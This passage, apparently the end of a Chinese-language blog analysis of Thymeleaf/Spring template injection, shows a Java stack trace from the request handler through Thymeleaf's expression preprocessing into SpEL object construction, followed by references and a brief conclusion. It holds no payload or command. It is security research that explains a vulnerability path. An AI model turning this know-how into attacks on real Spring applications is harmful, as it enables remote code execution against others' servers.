createNewInstance:114, ConstructorReference (org.springframework.expression.spel.ast)
getValueInternal:100, ConstructorReference (org.springframework.expression.spel.ast)
getValueRef:55, CompoundExpression (org.springframework.expression.spel.ast)
getValueInternal:91, CompoundExpression (org.springframework.expression.spel.ast)
getValue:112, SpelNodeImpl (org.springframework.expression.spel.ast)
getValue:337, SpelExpression (org.springframework.expression.spel.standard)
evaluate:263, SPELVariableExpressionEvaluator (org.thymeleaf.spring5.expression)
executeVariableExpression:166, VariableExpression (org.thymeleaf.standard.expression)
executeSimple:66, SimpleExpression (org.thymeleaf.standard.expression)
execute:109, Expression (org.thymeleaf.standard.expression)
execute:138, Expression (org.thymeleaf.standard.expression)
preprocess:91, StandardExpressionPreprocessor (org.thymeleaf.standard.expression)
parseExpression:120, StandardExpressionParser (org.thymeleaf.standard.expression)
parseExpression:62, StandardExpressionParser (org.thymeleaf.standard.expression)
parseExpression:44, StandardExpressionParser (org.thymeleaf.standard.expression)
renderFragment:278, ThymeleafView (org.thymeleaf.spring5.view)
render:189, ThymeleafView (org.thymeleaf.spring5.view)
render:1373, DispatcherServlet (org.springframework.web.servlet)
processDispatchResult:1118, DispatcherServlet (org.springframework.web.servlet)
doDispatch:1057, DispatcherServlet (org.springframework.web.servlet)
doService:943, DispatcherServlet (org.springframework.web.servlet)
processRequest:1006, FrameworkServlet (org.springframework.web.servlet)
doGet:898, FrameworkServlet (org.springframework.web.servlet)
service:626, HttpServlet (javax.servlet.http)
service:883, FrameworkServlet (org.springframework.web.servlet)
service:733, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:53, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:202, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:542, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:143, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:374, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:868, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1590, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang)
```

### 4.5 参考

[https://www.cnblogs.com/CoLo/p/15507738.html](https://www.cnblogs.com/CoLo/p/15507738.html)  
[https://www.cnblogs.com/nice0e3/p/16212784.html](https://www.cnblogs.com/nice0e3/p/16212784.html)  
[https://developer.aliyun.com/article/769977](https://developer.aliyun.com/article/769977)  
[https://paper.seebug.org/1332/](https://paper.seebug.org/1332/)

# 5\. 总结

对于模板引擎的渲染以及造成的模板注入漏洞，原理类似，但是也存在一些差别，通过以上分析，更能理解模板注入漏洞产生的原理...
